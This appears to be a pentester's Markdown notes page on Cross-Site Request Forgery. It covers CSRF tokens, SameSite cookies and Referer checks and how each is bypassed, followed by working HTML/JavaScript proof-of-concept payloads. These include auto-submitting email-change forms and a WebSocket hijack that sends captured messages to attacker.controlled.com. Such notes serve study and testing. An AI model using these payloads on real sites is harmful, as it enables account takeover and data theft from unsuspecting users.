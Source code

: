 # Cross-Site Request Forgery

Make a user perform actions that they do not intend to perform. Such as, changing Email, changing password, do a money transfer, or send requests to outside urls. The attacker will most likely use a malicious webpage that contains some javascript that triggers the CSRF attack.

### Conditions

- There must be a relevant action for the attacker to take over
- Solely cookie-based session handling
- No unpredictable request parameters

View all my Proof of Concepts [here](#proof-of-concepts)

## Protections

### CSRF tokens
CSRF tokens are generated server side and shared with the client. Before every sensitive action, it checks if the token is correct.
- Quite effective

> Sometimes the implementation has some common flaws that make the application vulnerable:
> - Validation of the CSRF token is skipped when `GET` is used instead of `POST` [PoC](#no-crsf-token-using-get)
> - No validation when CSRF token is not present
> - CSRF token not tied to user, so attacker can use their own token for the payload
> - Maybe the CSRF token is tied to some session-independent cookie (or CSRF token cookie double), so if there is any set-cookie exploit within the domain, it is exploitable

### SameSite cookies
[SameSite](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie#samesitesamesite-value) is a browser security mechanism that determines when a website's cookies are included in requests originating from other websites. Since sensitive actions propably require an authenticated cookie. Options are "Strict", "Lax", and "None".
- Chrome has `SameSite=Lax` restrictions by default (after 120 seconds on top-level `POST` requests, to make SSO work). "Lax" only sends cross-site cookies if a top-level navigation by the user issues a `GET` request
- Quite effective

> SameSite Lax is not always the best
> - If a website can use `GET` requests for sensitive operations, you can use `window.location = 'url'` to bypass "Lax" restrictions [PoC](#lax--get--method-override)
> - Some frameworks (e.g. [Symfony](https://symfony.com/doc/current/reference/forms/types/form.html#method)) allow the method to be overridden with the "_method" parameter in the form
> - Exploit the 120 second window for default "Lax", refresh the login, then exploit [PoC](#default-lax--sso)
>
> SameSite Strict can still be vulnerable
> - Client-side redirects are same-site, so it will include the cookies, so maybe a user controlled url is used in a client-sided redirect somewhere on the site
> - Or use [XSS](./xss.md) to elicit arbitrary secondary requests to compromise all site-based defenses
> - If websockets are used, it maybe is vulnerable to cross-site WebSocket hijacking, which targets the websocket handshake [PoC](#cross-site-websocket-hijacking)
 
### Referer-based validation
Check the [Referer header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referer) to see if the request originated from the application's own domain.
- Not very effective

> Using the Referer header as CSRF protection is not very good
> - Sometimes validation is skipped if the header is omitted [PoC](#referer-omitted)
> - If only checked if the referer contains the site, you can append it to the current url with `/?website`. Must use `Referrer-Policy: unsafe-url` when doing this [PoC](#referer-modified)

## Proof of Concepts

### General | CSRF token | Method override
```html
<html>
    <body>
        <form method="POST" action="https://vulnerable-website.com/email/change">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
            <input type="hidden" name="csrf" value="xxxx" />
            <input type="hidden" name="_method" value="GET">
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

### No CRSF token using GET
```html
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```

### Lax | GET | Method override
```html
<script>
    window.location = 'https://vulnerable-website.com/email/change?_method=POST&email=pwned@evil-user.net';
</script>
```

### Cross-Site WebSocket Hijacking
```html
<script>
    var ws = new WebSocket('wss://vulnerable-website.com/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://attacker.controlled.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

### Default Lax | SSO
```html
<form method="POST" action="https://vulnerable-website.com/email/change">
    <input type="hidden" name="email" value="pwned@evil-user.net">
</form>
<p>Click anywhere</p>
<script>
    window.onclick = () => {
        window.open('https://vulnerable-website.com/login/sso');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

### Referer omitted
```html
<meta name="referrer" content="never">
```

### Referer modified
Use header `Referrer-Policy: unsafe-url` on malicious website
```html
<script>
    history.pushState("", "", "/?vulnerable-website.com")
</script>
```